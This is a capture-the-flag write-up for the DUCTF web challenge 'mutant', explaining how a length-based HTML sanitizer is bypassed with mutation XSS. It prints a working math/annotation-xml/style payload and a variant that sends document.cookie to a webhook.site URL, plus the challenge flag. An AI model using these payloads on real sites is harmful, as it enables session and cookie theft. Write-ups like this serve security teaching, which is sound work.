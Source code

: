 # 🏷️ mutant

**Category:** Web  
**Description:**  
> Just an XSS. What more is there to it?

----
<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/mutant/images/1.PNG?raw=true'>

<br></br>

**index.js**
```js
const inp = new URLSearchParams(location.search).get("input");

// Reporting stuff
reportbtn.addEventListener('click', () => {
  fetch("/report", {
    method: "POST",
    body: inp
  }).then(r => alert("Successfully reported")).catch(alert);
});

// Challenge
mytextarea.value = inp;

console.log("Original", inp);

const t = document.createElement("template");
t.innerHTML = inp;

console.log("After injecting into template", t.innerHTML);

const nodes = [t.content];
while (nodes.length > 0) {
  const n = nodes.pop();

  console.log("Parsed element", n.outerHTML);

  if (n.attributes) {
    while (n.attributes.length > 0) {
      n.removeAttribute(n.attributes[0].name);
    }
  }

  // Fix XSS reported by our bug bounty community
  if (n.nodeName !== "#document-fragment" && (n.nodeName.length === 6 || n.nodeName.length === 8)) {
    n.parentNode.removeChild(n);
    continue;
  }
  
  for (let i = n.children.length - 1; i >= 0; i--) {
    nodes.push(n.children[i]);
  }
}

console.log("After sanitization", t.innerHTML);

myoutputdebug.innerText = t.innerHTML;
myoutput.innerHTML = t.innerHTML;

console.log("Final", myoutput.innerHTML);
```

This is the sanitization process : 


```js
const nodes = [t.content];
while (nodes.length > 0) {
  const n = nodes.pop();
  console.log("Parsed element", n.outerHTML);

  if (n.attributes) {
    while (n.attributes.length > 0) {
      n.removeAttribute(n.attributes[0].name);
    }
  }

  // Fix XSS reported by our bug bounty community
  if (n.nodeName !== "#document-fragment" && (n.nodeName.length === 6 || n.nodeName.length === 8)) {
    n.parentNode.removeChild(n);
    continue;
  }
  
  for (let i = n.children.length - 1; i >= 0; i--) {
    nodes.push(n.children[i]);
  }
}
```


Iterates through the fragment’s nodes recursively.

Removes all attributes from each element.

Then tries to remove some elements based on nodeName.length:
```js
if (n.nodeName !== "#document-fragment" && (n.nodeName.length === 6 || n.nodeName.length === 8))
```

As we can see, the length is not a problem because there are some payloads we can use, such as `<svg>`, `<img>`, etc.

Testing some stuff didn’t work, then I tried some mutation XSS like `<table><h1>hello</h1></table>`

and the result was `<h1>hello</h1><table></table>`
<br />
<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/mutant/images/2.PNG?raw=true'>
<br />
Then I tried to construct a valid payload and got a working one:
<br />
<br />

```
<math><annotation-xml encoding="text/html"><style><img src onerror=alert(origin)>
```
<br />
<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/mutant/images/4.PNG?raw=true'>
<br />

***Let's get the flag***

```
<math><annotation-xml encoding="text/html"><style><img src onerror=fetch('https://webhook.site/62cfc181-7e74-4ff1-9674-039cbc4fc143?x='+document.cookie)>
```

<br />

<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/mutant/images/5.PNG?raw=true'>
<br />

***Report to the admin***

<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/mutant/images/6.PNG?raw=true'>

<br />

FLAG :
```
DUCTF{if_y0u_d1dnt_us3_mutation_x5S_th3n_it_w45_un1nt3nded_435743723}
```
